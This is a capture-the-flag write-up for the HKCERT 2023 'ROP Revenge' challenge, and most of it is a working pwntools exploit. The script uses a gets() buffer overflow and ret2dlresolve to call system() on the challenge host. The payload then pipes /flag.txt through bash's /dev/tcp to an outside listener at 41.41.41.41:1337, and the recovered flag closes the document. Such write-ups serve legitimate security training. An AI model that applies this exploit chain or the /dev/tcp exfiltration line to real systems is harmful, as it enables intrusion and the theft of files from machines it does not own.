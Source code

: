 # ROP Revenge

## Challenge

Buffer-overflow challenge but stdout and stderr are closed.

## Solution

There is a call to `gets` with no PIE and no canary, so we can trivially execute a ROP chain.

We can't get a libc leak as stdout and stderr are closed, but we can call libc functions using ret2dlresolve.

We use this to call `system` and use bash to send the flag to a listener by piping into /dev/tcp.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host chal.hkcert23.pwnable.hk --port 28352 chall/src/chall
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'chall/src/chall')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'chal.hkcert23.pwnable.hk'
port = int(args.PORT or 28352)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)

io = start()

dlresolve = Ret2dlresolvePayload(exe, symbol="system", args=[b'bash -c "cat /flag.txt > /dev/tcp/41.41.41.41/1337"'])

rop = ROP(exe)
rop.gets(dlresolve.data_addr)
rop.raw(rop.ret)
rop.ret2dlresolve(dlresolve)

rop.gets(dlresolve.data_addr)

io.sendline(flat({0x78: rop.chain()}))
io.sendline(dlresolve.payload)

io.interactive()
```

## Flag

```
hkcert23{n0_3y3_s3E}
```

